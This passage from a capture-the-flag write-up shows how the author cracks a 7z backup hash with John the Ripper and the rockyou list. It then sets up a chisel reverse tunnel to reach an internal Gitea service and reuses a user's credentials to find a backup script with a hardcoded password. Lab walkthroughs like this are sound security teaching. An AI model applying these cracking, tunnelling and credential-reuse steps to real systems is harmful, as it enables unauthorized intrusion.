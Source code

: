 Though it does correspond to Tom, the password works neither to log into Doodle Grive or on the box itself through sudo. Logically, the next step is to look into the DB backups. However, all of them are encrypted with a password that we don't know.

Before doing anything else, I converted one of the 7z files to a hash and tried to crack it with JtR:
```
thehated@TRYHARDER:/dev/shm$ john ~/jtr-hash-cb1c18065d4c3d896dd4ee49613afdca.txt --wordlist=/home/thehated/SecLists/Passwords/Leaked-Databases/rockyou.txt    
Warning: detected hash type "7z", but the string is also recognized as "7z-opencl"  
Use the "--format=7z-opencl" option to force loading these as that type instead  
Using default input encoding: UTF-8  
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])  
Cost 1 (iteration count) is 524288 for all loaded hashes  
Cost 2 (padding size) is 14 for all loaded hashes  
Cost 3 (compression type) is 2 for all loaded hashes  
Cost 4 (data length) is 12834 for all loaded hashes  
Will run 8 OpenMP threads  
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status  
0g 0:00:00:03 0.00% (ETA: 2024-02-22 01:41) 0g/s 115.0p/s 115.0c/s 115.0C/s jeffrey..miamor  
0g 0:00:00:12 0.01% (ETA: 2024-02-22 10:48) 0g/s 109.6p/s 109.6c/s 109.6C/s teacher..tagged  
0g 0:00:00:32 0.02% (ETA: 2024-02-22 12:28) 0g/s 109.2p/s 109.2c/s 109.2C/s cougar..fresa  
0g 0:00:00:52 0.03% (ETA: 2024-02-22 13:33) 0g/s 106.9p/s 106.9c/s 106.9C/s rodrigues..june10
```

Gosh, cracking it would take more than two days on my computer, and it isn't even guaranteed to work! There must be a better way... say, wasn't there a filtered port in the initial `nmap` scan?

### User

Speaking of that port, time to leverage it. With `chisel`, we're able to forward port 3000 directly to our machine for access in our browser. The following commands do it for server and client respectively:
```
./chisel server --reverse
./chisel client x.x.x.x:PORT R:3000
```

#### Gitea

Loading the site gives a Gitea instance:
![GITEA_IMAGE](https://cybersec.deadandbeef.com/images/Drive/gitea.png)

The instructions given with Martin's credentials indicated that the account was created for git purposes, so perhaps these credentials can be used here too?
![GITEAREPO_IMAGE](https://cybersec.deadandbeef.com/images/Drive/gitearepo.png)

Indeed they can, and Martin even has access to the Doodle Grive source code. For our purposes, `db_backup.sh` looks *real* interesting.
```
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp
```
